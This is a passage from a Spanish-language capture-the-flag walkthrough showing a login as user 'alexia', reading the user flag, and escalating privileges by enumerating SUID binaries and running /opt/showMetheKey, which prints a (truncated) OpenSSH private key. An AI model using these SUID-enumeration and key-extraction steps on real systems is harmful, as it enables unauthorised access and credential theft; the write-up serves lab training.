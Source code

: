 ```
Last login: Wed Sep 30 11:06:15 2020
alexia@hommie:~$ whoami
alexia
```

Veremos que ha funcionado, por lo que leeremos la `flag` del usuario.

> user.txt

```
Imnotroot
```

## Escalate Privileges

Si probamos a listar los permisos `SUID` del usuario, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
140     20 -rwsr-sr-x   1 root     root        16720 Sep 30  2020 /opt/showMetheKey
   146900    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   268129     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   132307     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   131120     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
   131117     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
   134620     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
   134946     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
   131118     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
   131121     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
   134473     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
   134948     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
```

Veremos esta linea bastante interesante:

```
140  20 -rwsr-sr-x   1 root     root    16720 Sep 30  2020 /opt/showMetheKey
```

Vamos a ver que hace este binario:

```shell
/opt/showMetheKey
```

Info:

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEApwUR2Pvdhsu1RGG0UIWmj2yDNvs+4VLPG0WWisip6oZrjMjJ40h7
V0zdgZSRFhMxx0/E6ilh2MiMbpAuogCqC3MEodzIzHYAJyK4z/lIqUNdHJbgLDyaY26G0y
Rn1XI+RqLi5NUHBPyiWEuQUEZCMOqi5lS1kaiNHmVqx+rlEs6ZUq7Z6lzYs7da3XcFGuOT
gCnBh1Wb4m4e14yF+Syn4wQVh1u/53XGmeB/ClcdAbSKoJswjI1JqCCkxudwRMUYjq309j
QMxa7bbxaJbkb3hLmMuFU7RGEPu7spLvzRwGAzCuU3f60qJVTp65pzFf3x51j3YAMI+ZBq
kyNE1y12swAAA8i6ZpNpumaTaQAAAAdzc2gtcnNhAAABAQCnBRHY+92Gy7VEYbRQhaaPbI
M2+z7hUs8bRZaKyKnqhmuMyMnjSHtXTN2BlJEWEzHHT8TqKWHYyIxukC6iAKoLcwSh3MjM
dgAnIrjP+UipQ10cluAsPJpjbobTJGfVcj5GouLk1QcE/KJYS5BQRkIw6qLmVLWRqI0eZW
rH6uUSzplSrtnqXNizt1rddwUa45OAKcGHVZvibh7XjIX5LKfjBBWHW7/ndcaZ4H8KVx0B
tIqgmzCMjUmoIKTG53BExRiOrfT2NAzFrttvFoluRveEuYy4VTtEYQ+7uyku/NHAYDMK5T
d/rSolVOnrmnMV/fHnWPdgAwj5kGqTI0TXLXazAAAAAwEAAQAAAQBhD7sthEFbAqtXEAi/
+suu8frXSu9h9sPRL4GrKa5FUtTRviZFZWv4cf0QPwyJ7aGyGJNxGZd5aiLiZfwTvZsUiE
```